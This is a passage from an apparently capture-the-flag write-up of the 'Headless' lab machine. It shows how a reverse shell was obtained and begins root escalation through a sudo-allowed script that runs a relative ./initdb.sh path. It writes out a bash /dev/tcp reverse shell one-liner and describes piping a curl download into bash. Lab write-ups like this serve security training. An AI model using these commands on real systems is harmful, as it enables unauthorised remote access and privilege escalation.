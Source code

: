 We get the result of the `pwd` command so we proceed with a reverse shell. I started by directly entering the command `/bin/bash -i >& /dev/tcp/IP/1337 0>&1` with no results, so I proceeded by placing the command in a file and loaded and ran it via curl in pipe with bash and I had the shell.

<p>
  <img src="assets/img/headless/reverse_shell.png" 
  alt="Descripción"/>
</p>

In */home/dvir* there is the user flag.

## 5. User to ROOT

To escalate, we start by running the *sudo -l* command.

```bash
dvir@headless:~/app$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

As you can see, you can run the *syscheck* command as superuser without knowing the password.

```bash
dvir@headless:~/app$ cat /usr/bin/syscheck
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1                                                    
fi
                                                        
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)                                                                                                                    
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

```